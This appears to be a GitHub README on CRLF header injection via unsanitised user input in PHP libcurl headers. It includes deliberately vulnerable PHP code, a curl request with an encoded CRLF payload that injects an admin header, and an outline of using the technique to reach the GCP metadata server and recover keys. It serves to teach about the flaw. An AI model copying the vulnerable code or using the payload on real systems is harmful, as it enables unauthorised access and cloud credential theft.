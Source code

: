 # Description

This repository aims to describe a CRLF (Carriage Return Line Feed) that exist in the `libcurl` of PHP source code.

[Here](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) you can found the owasp description of a CRLF.

# The vulnerability

A CRLF is a vulnerability that allows a remote (potentially non-authenticate) attacker to inject some headers inside an HTTP request.

In the PHP libcurl library, developers can put several options, such as the method, headers, ...

It's not improbable that a developer recover some parameters from the user to put them inside headers as values.

# Example of vulnerable code

Let's imagine the following infrastructure :

![infra](images/infra.png)

The PHP application contains the following code :

```php
<?php
if(isset($_GET["API_KEY"]))
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "http://api.internal.corp/");
    $headers = [
        "X-Header1: custom_header",
        "X-API-KEY: ".$_GET["API_KEY"]
    ];

    curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
    $data = curl_exec($ch);

    if (curl_errno($ch)) {

        die('Error:' . curl_error($ch));
    }

    curl_close($ch);
    return $data;
}
else
{
    die("Missing API_KEY parameter.");
}
```

The internal API contains the following code :

```php
<?php
if(isset($_SERVER["HTTP_X_ADMIN_HEADER"]))
{
    echo "welcome back admin !";
}
else
{
    if(isset($_SERVER["HTTP_X_API_KEY"]))
    {
        if(verify_api_key($_SERVER["HTTP_X_API_KEY"])) //this method does not exist but let's imagine..
        {
            echo "welcome standard user !";
            //do the rest of code..
        }
        else
        {
            echo "invalid api key !";
            //do the rest of code..
        }
    }
    else
    {
        die("Missing X-API-KEY header");
    }
}
```

Let's do a regular and legit request to the server :

```bash
$> curl http://external.corp/api/v3/verify_key?API_KEY=my_key
welcome standard user 
```

Here everything is normal, there isn't any weird response.

Note that in the script, I've haven't specify the header "X-ADMIN-HEADER", therefore, we (normally) aren't able to reach the message `welcome back admin !`.

But now, if we inject a CRLF :

```bash
$> curl http://external.corp/api/v3/verify_key?API_KEY=%0D%0AX-ADMIN-HEADER:%20a
welcome back admin
```

If we listen with netcat, the internal server, with the payload, is receiving the following HTTP request :

![payload](images/payload.png)

We have inject our header !

# Is it useful ?

You might be thinking now that this is a really CTF thing, injecting headers, get the admin panel, ...

But if we take a real world example of an SSRF (Server Side Request Forgery) inside a GCP instances.

Inside GCP, if you want to reach (the famous) ip that contains metadata of the current instances, you have to specify a header called `Metadata-Flavor`. In fact, Google have put this security to prevent SSRF to 169.254.169.254.

But with our injection, (and if it's possible), we can inject this header, and reach the metadata server of a specific GCP instance, recover the keys, ...

# Disclaimer

This vulnerability exist since years, I don't want to appropriate the work of others. In fact, it have already been documented, i'm just releasing this github repository because i've found the vulnerability myself.